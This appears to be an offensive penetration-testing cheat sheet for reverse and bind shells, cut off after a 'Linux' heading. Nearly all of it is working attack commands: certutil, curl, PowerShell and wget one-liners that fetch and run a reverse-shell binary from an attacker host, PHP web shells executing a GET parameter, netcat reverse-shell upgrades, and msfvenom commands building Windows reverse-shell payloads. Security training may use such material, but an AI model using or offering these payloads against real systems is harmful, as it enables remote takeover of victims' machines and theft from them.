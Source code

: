 ### Reverse Shell / Bind Shell

connect to SuperShell

```jsx
//cmd
certutil -urlcache -split -f http://192.168.1.1:8888/supershell/compile/download/rs.exe C:\Users\Public\rs1.exe & C:\Users\Public\rs1.exe
curl http://192.168.1.1:8888/supershell/compile/download/rs.exe -o rs.exe & rs.exe

//powershell
iwr -uri http://192.168.1.1:8888/supershell/compile/download/rs.exe -Outfile C:\Users\Public\rs.exe ; C:\Users\Public\rs.exe

//bash
wget http://192.168.1.1:8888/supershell/compile/download/rs -O rs; chmod 777 rs; ./rs

```

PHP

```php
//simple shell
<?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>
<?php echo system($_GET['cmd']);?>

//reverse
all OS: rs.pHp Ivan Sincek https://www.revshells.com/
```

Upgrade simple shell

```jsx
?cmd = nc 192.168.1.1 80 -e /bin/sh
?cmd = wget http://192.168.1.1/reverseShell.php
?cmd = php reverseShell.php
?cmd = php7 rv1.php
http://192.168.1.1/reverseShell.php
```

Ruby

```jsx
echo 'exec "/bin/bash"' > app.rb
```

Windows

```jsx
https://www.revshells.com/ - Powershell#3base64
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 EXITFUNC=thread -f exe --platform windows -o rs.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 EXITFUNC=thread -f exe --platform windows -o rs.exe
```

Linux

